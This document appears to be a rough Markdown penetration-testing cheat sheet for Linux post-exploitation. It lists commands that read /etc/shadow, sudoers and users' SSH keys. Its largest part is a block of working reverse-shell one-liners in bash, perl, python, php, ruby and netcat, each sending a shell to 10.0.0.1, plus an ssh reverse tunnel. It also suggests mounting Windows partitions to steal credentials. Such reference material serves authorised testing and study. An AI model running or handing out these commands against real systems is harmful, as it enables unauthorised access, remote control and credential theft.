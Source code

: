 ##### Escalating

Looking for possible opened paths

```
ls -alh /root/
cat /etc/sudoers
cat /etc/shadow
cat /etc/master.passwd # OpenBSD
cat /var/spool/cron/crontabs/* | cat /var/spool/cron/*
lsof -nPi
ls /home/*/.ssh/*
```

##### Maintaining Control
##### Reverse Shell

```
Starting list sourced from: http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1 (No /dev/tcp on Debian, but use nc, TCL, awk or any interpreter like Python, and so on.).
perl -e 'use Socket; $i="10.0.0.1"; $p=1234; socket(S,PF_INET, SOCK_STREAM, getprotobyname("tcp")); if(connect(S,sockaddr_in($p,inet_aton($i)))){ open(STDIN,">&S"); open(STDOUT,">&S"); open(STDERR,">&S"); exec("/bin/sh -i");};'
python -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET, socket.SOCK_STREAM); s.connect(("10.0.0.1",1234)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call(["/bin/sh","-i"]);'
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i; exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)' nc -e /bin/sh 10.0.0.1 1234 # note need -l on some versions, and many does NOT support -e anymore
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
xterm -display 10.0.0.1:1 
Listener- Xnest :1
Add permission to connect- xhost +victimIP
ssh -NR 3333:localhost:22 user@yourhost
nc -e /bin/sh 10.0.0.1 1234
```

##### Fun if Windows is present and accessible

```
If there is Windows installed and the logged-in user access level includes those Windows partition, attacker can mount them up and do a much deeper information gathering, credential theft and root-ing. Ntfs-3g is useful for mounting ntfs partitions read-write.
TODO: insert details on what to look for
Stuff to be sorted

## GOING TO MOVE EVERYTHING HERE FOR LEGIBILITY ONCE EDITING DIES DOWN
Command   Output
uname -a    Linux kernel version, usually distribution too
ps aux      List of running processes
id  List current user and group along with user/group id    
w Show info about who is logged, what are they are doing    
who -a  Print information about users   
cat /dev/core > /dev/audio

cat /dev/mem > /dev/audio Makes a sound from the memory content.
Usefullness of this???
```
